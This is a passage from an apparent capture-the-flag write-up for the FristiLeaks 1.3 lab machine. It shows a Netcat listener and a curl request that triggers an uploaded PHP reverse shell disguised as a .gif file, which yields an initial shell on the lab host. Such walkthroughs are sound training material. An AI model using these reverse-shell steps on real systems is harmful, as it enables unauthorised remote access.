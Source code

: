 ![writeup.exploitation.steps.2.1](/static/files/posts_vulnhub_fristileaks1dot3/screenshot03.png.webp)  

3\. We start a Netcat listener, issue a request for this file using `curl` and are presented with the initial shell:  
```
nc -nlvp 443
curl -v "http://192.168.92.133/fristi/uploads/rs.php.gif"
```

![writeup.exploitation.steps.3.1](/static/files/posts_vulnhub_fristileaks1dot3/screenshot04.png.webp)  

![writeup.exploitation.steps.3.2](/static/files/posts_vulnhub_fristileaks1dot3/screenshot05.png.webp)  
